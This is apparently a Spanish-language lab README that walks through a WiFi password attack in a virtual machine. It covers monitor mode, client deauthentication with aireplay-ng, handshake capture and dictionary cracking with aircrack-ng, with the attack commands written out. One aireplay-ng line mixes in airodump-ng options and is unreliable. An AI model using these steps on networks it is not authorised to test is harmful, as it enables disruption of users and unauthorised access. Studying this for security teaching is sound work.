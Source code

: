# Pentesting Wifi

En esta practica demostraremos lo "sencillo" que puede resultar sacar con fuerza bruta una contraseña WiFi si esta no es segura.

## Configuración MV

El primero de los pasos sería configurar el entorno virtual de forma que podamos utilizar el adaptador de red USB para posteriormente ponerlo en modo monitor.

En esta ocasión hemos utilizado QEMU/KVM y la configuración de este apartado es tan fácil como agregar el XML con el puntero de que dispositivo USB es el que queremos conectar:

```xml
<hostdev mode="subsystem" type="usb" managed="yes">
  <source>
    <vendor id="0x2357"/>
    <product id="0x010c"/>
    <address bus="3" device="6"/>
  </source>
  <alias name="hostdev0"/>
  <address type="usb" bus="0" port="4"/>
</hostdev>
```

De esta forma la máquina ya será capaz de detectar el nuevo adaptador inalámbrico.

![usb](img/0%20usb.png)

## Drivers

La instalación de los drivers es un paso un poco tricky ya que debemos buscar los drivers del chip de nuestro adaptador en este caso un [rtl8188eus](https://github.com/drygdryg/rtl8188eus) agregar la excepción a la lista negra y compilarlos, tras reiniciar la máquina podremos poner el adaptador en modo monitor.

**Ejemplo de script de instalación**
![drivers](img/2%20drivers.png)

**Adaptador configurado**
![adapter](img/1%20adaptador.png)

## Preparación

Una vez tengamos nuestro super adaptador debemos ponerlo en modo monitor, de esta forma el chip no trabajará como un adaptador de red normal sino que será capaz de sacar mucha mas información de la que de normal puede extraer. En mi caso el adaptador tiene un nombre muy largo así que a lo largo me referire al adaptador inalambrico por el nombre generico wlan0, es posible que en tu caso no se llame exactamente igual.

```bash
$sudo ifconfig wlan0 down
$sudo airmon-ng check kill
$sudo iwconfig wlan0 mode monitor
$sudo ifconfig wlan0 up
$iwconfig

#Vemos en mode:monitor
```

![monitor](img/3%20mode%20monitor.png)

**Test modo monitor**

```bash
$sudo aireplay-ng --test wlan0
```

![aireplay](img/4%20test%20airreplay.png)

## Ataque

El ataque consiste en sacar la contraseña del punto de acceso mediante un ataque de diccionario gracias a haber deautenticado a un cliente conectado y haber capturado el handshake.

Lo primero que debemos hacer es conocer las redes que nos rodean con airodump:

```bash
$ airodump-ng <Interfaz ej:wlan0>
```

Luego deautenticar a sus clientes:

![handshake](img/5%20hanshake.png)

```bash
$ aireplay-ng -c <CHANNEL> -a <MACSSID> -w <nombreFichero> <Interfaz ej:wlan0>
or
$ aireplay-ng -0 1 -a <MACSSID> -c <MACCliente> <Interfaz ej:wlan0>
```

![air](img/6%20airdum.png)


Finalmente con el handshake interceptado, crackearlo:

```bash
aircrack-ng -w <DICCIONARIO> -b <MACSSID> <nombreFichero>*.cap
```

![final](img/7%20key%20found.png)

